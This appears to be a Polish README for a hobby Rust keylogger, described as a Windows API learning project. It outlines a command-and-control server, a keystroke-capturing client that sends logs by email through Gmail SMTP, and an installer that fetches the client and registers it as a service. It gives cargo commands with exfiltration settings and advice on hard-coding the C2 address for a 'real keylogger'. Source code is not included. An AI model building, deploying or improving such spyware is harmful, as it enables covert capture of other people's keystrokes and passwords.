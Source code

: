 # Prosty keylogger

Prosty keyloigger powstający w ramach nauki windows api i kilku bibliotek Rusta.
Składa się z 4 części (na razie 3)

1. `cc` - Niby serwer Command & Control, ale w obecnym stanie tylko przesyła podstawową konfigurację
2. `client` - Właściwy keylogger do zbierania klawiszy i wysyłania
3. `installer` - Program łączący się z `cc` i pobierający właściwy keylogger i go instalujący
4. `decoder` - __TODO__
## `cc`

Należy go umieścić w dostępnym miejscu,  odpali się słuchając na porcie 8080.  
W obecnej wersji przesyła tylko konfigurację klienta, żeby wysyłał mailem.
Hasło do maila trzeba podać. Przykład uruchomienia (przez Cargo) w tym durnym powershellu.
W normalnych systemach zamiast \` będzie się dawało \. 
```powershell
cargo run --bin cc -- `
--login prostykeylogger `
--password "aaaa bbbb cccc dddd" ` 
--host-file target/debug/client.exe `
--relay "smtp.gmail.com" `
--from "<prostykeylogger@gmail.com>" `
--to "Admin <prostykeylogger@gmail.com>"
```
Podane hasło to hasło logowania do maila (lub `app password` np w google, które nie pozwala użyć właściwego hasła przez api `smtp`)


## `installer`
Trzeba go uruchomić z uprawnieniami administratora.
Nie działa jeszcze poprawnie bo choć pobiera `clienta` i rejestruje go jako serwis to serwic nie działa.
Jest to prawdopodobnie związane z tym że windows jest durny i go nie używam na codzień, przez co nie wiem jeszcze jak się
robi działające serwisy.
Uruchomiony bez argumentów powinien połączyć się z serwerm `http://localhost:8080`.
W prawdzimym keyloggerze wypadało to zmienić, teraz można go opcją ustawić, ale najeloiej jakby docelowy adres był wkompilowany jako domyślny


W terminalu z uprawnieniami admina:
```powershell
cargo run --bin installer -- 
```

## `client`
Zbiera klucze i wysyła zadanym kanałem (na razie tylko mail jest wspierany).
Uruchamia się, pobiera konfigurację z serwera i ma działać.

Docelowo powiniein być zarejestrowany jako serwic i uruchamiać się przy starcie, ale to jeszcze nie działa.

Ręczne uruchomienie:
```powershell
cargo run --bin client -- 
```
> Musi działać serwer `cc`

A na razie działa tylko do serwera `localhsot:8080`, bo docelowo ma mieć plik w którym jest zapisane gdzie jest serwer, albo wartość wkompilowaną.


